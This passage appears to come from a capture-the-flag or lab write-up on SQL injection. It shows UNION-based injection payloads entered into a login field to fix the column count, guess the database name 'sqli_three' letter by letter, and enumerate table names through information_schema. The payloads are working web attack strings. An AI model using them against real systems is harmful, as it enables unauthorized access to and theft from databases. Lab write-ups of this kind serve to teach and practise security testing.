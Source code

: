     admin123' UNION SELECT 1,2,3;-- 
![Column error fixed](images/19-column-error-fixed.png)<br/>
Now that our number of columns has been established, we can work on the  enumeration of the database.<br/>

    admin123' UNION SELECT 1,2,3 where database() like 's%';-- 
![Get db name](images/20-get-database-name.png)<br/>
After many tryed i've found full database name, which is `sqli_three`<br/>

Now we need to enumerate `table names` using a similar method.
    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
